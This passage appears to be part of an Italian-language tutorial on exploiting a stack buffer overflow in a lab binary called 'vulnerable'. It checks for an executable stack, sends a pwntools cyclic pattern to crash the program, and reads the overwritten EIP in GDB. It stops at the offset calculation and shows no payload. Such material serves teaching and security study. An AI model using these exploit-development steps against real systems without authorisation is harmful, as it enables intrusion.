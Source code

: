 ```bash
readelf -l vulnerable | grep GNU_STACK
```

**Output atteso:**
```
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

## Analisi con GDB e Pwntools

### Generazione Pattern Ciclico

```bash
python3 -c "from pwn import *; print(cyclic(200))"
```

**Output:**
```
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```

### Test Segmentation Fault

```bash
./vulnerable $(python3 -c "from pwn import *; print(cyclic(200))")
```

**Risultato:**
```
execution of vulnerable program
zsh: segmentation fault (core dumped)  ./vulnerable $(python3 -c "from pwn import *; print(cyclic(200))")
```

### Debugging con GDB

```bash
gdb ./vulnerable
(gdb) run $(python3 -c "from pwn import *; print(cyclic(200))")
```

**Output GDB:**
```
Starting program: /path/to/vulnerable $(python3 -c "from pwn import *; print(cyclic(200))")
execution of vulnerable program

Program received signal SIGSEGV, Segmentation fault.
0x61746161 in ?? ()
(gdb) info register
eip            0x61746161          0x61746161
```

### Calcolo Offset
